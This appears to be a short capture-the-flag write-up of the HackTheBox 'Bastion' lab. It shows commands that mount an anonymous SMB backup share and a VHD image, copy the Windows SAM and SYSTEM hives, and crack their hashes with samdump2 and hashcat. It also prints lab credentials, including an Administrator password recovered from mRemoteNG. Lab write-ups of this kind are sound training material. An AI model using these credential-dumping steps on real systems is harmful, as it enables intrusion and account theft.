

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/HackTheBox/Bastion/index.html · generator: mkdocs

# Bastion

Port scan shows 22, 139, 445 open. We find an unprotected share `/backups` which contains the backup archive of a Windows PC.

mount SMB share
```
sudo mount -t cifs //10.10.10.134/backup /mnt/vhd1 -o user=anonymous,password=anonymous
```

Mount the vhd file
```
sudo modprobe nbd
```

```
sudo qemu-nbd -r -c <new_device_name> <file>
```

```
mount -r <new_device_name> <mountpoint>
```

and then dump the SAM and SYSTEM files for cracking

```
cp c:\windows\system32\config\SAM .
cp c:\windows\system32\config\SYSTEM .
samdump2 SYSTEM SAM -o hashes
hashcat hashes /usr/share/wordlists/rockyou.txt
```

We now have user credentials

```
L4mpje
```

```
bureaulampje
```

In `%appdata%/mremoteng/confCons.xml` we find a few username/password combos

![[Pasted image 20220719184042.png]]

```
L4mpje
```



![[Pasted image 20220719184051.png]]

We used a tool from github to crack these hashes.

```
Administrator
```

```
thXLHM96BeKL0ER2
```
